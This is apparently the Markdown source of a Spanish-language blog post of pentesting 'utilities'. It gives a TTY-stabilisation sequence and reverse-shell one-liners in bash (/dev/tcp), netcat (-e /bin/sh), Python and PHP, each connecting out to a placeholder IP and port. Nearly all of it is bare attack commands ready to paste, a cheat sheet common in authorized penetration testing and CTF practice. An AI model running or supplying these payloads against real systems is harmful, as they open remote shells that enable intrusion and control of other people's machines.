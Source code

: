 ```yaml
---
title: Utilidades
date: 2024-09-01
description: Post con recursos generales.
categories:
    - Utilities
tags:
    - Utilities
media_subpath: /assets/img/commons/Utilities/
# image:
---
```


## Tratamiento de la tty

```bash
script /dev/null -c bash
(Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 44 cols 184
```

## Reverse Shell Linux

```bash
bash -i >& /dev/tcp/{IP}/{PUERTO} 0>&1
```

## Reverse Shell Netcat

```bash
nc -e /bin/sh {IP} {PUERTO}
```

## Reverse Shell Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PUERTO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse Shell PHP

```bash
php -r '$sock=fsockopen("{IP}",{PUERTO});exec("/bin/sh -i <&3 >&3 2>&3");'
```
